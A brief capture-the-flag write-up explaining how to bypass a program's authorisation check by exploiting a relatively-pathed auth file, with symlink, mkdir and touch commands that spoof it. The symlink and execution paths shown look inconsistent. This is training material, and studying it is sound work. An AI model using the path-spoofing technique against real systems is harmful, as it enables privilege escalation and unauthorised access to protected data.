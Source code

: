 # Just No
> A program at /problems/7e8b456c98db60be9a33339ab4509fca has access to a flag but refuses to share it. Can you convince it otherwise?

- HINTS
> Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up

**justno.c**

auth file's address is given by relative address

> fopen("../../problems/7e8b456c98db60be9a33339ab4509fca/auth","r")

and the flag file's address is given by absolute address

> fopen("/problems/7e8b456c98db60be9a33339ab4509fca/flag","r");


So, the solution is,

> ln -s /problems/7e8b456c98db60be9a33339ab4509fca/justno ~/no/no/justno

> mkdir ~/problems/7e8b456c98db60be9a33339ab4509fca/

> touch ~/problems/7e8b456c98db60be9a33339ab4509fca/auth

> ~/justno

